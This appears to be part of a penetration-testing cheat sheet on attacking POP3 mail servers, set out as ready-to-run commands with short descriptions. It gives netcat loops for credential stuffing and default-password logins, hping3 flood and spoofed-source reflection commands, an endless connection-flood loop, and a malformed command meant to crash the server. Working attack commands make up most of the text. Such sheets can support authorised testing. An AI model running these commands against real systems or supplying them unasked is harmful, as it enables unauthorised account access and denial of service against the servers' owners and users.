 ### Credential Stuffing
- **Tool:** [[Custom Scripts]]
    ```bash
    for password in $(cat passwords.txt); do echo "USER username\nPASS $password" | nc <target_ip> 110; done
    ```
- **Description:** Test a list of known or common passwords across multiple accounts or servers.

### Exploiting Weak Authentication
- **Tool:** Custom Scripts, Hydra
```bash
echo "USER admin\nPASS 123456" | nc <target_ip> 110
```
- **Description:** Attempts to authenticate using commonly known weak or default passwords.

## Denial of Service

### TCP/UPD Flood Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
- **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

### TCP/UDP Reflection Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
- **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

### POP3 Connection Flood
- **Tool:** [[Custom Scripts]], [[NetCat]]
    ```bash
    while true; do echo "USER user\nPASS pass" | nc <target_ip> 110; done
    ```
- **Description:** Flood the POP3 server with connection requests, potentially exhausting server resources and causing a denial of service.

### Malformed Command Injection
- **Tool:** [[Custom Scripts]], [[NetCat]]
    ```bash
    echo -e "RETR 9999999999" | nc <target_ip> 110
    ```
- **Description:** Send malformed commands that could cause the POP3 server to crash or become unresponsive.
